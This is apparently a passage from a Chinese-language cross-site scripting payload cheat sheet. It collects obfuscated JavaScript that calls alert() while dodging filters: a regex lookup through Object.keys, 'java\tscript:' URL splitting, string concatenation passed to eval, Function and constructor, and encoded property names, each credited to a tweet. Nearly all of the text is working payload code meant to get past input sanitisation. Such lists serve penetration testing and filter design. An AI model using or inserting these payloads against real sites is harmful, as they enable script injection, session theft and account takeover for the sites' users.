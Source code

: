 然后调用alert的方式是：

```javascript
Object.keys(self)[5]
// "alert"
self[Object.keys(self)[5]]("1") // alert("1")
```

我们可以使用正则表达式如`^a[rel]+t$`来找到“alert”。

```javascript
// 将函数alert绑定到新函数a()
a=()=>{c=0;for(i in self){if(/^a[rel]+t$/.test(i)){return c}c++}} 

// 然后你可以使用a()和Object.keys
self[Object.keys(self)[a()]]("1") // alert("1")
```

一行代码版本：

```javascript
a=()=>{c=0;for(i in self){if(/^a[rel]+t$/.test(i)){return c}c++}};self[Object.keys(self)[a()]]("1")
```

来自[@quanyang](https://twitter.com/quanyang/status/1078536601184030721)的推文。

```javascript
prompt`${document.domain}`
document.location='java\tscript:alert(1)'
document.location='java\rscript:alert(1)'
document.location='java\tscript:alert(1)'
```

来自[@404death](https://twitter.com/404death/status/1011860096685502464)的推文。

```javascript
eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;

constructor.constructor("aler"+"t(3)")();
[].filter.constructor('ale'+'rt(4)')();

top["al"+"ert"](5);
top[8680439..toString(30)](7);
top[/al/.source+/ert/.source](8);
top['al\x65rt'](9);

open('java'+'script:ale'+'rt(11)');
location='javascript:ale'+'rt(12)';

setTimeout`alert\u0028document.domain\u0029`;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
```
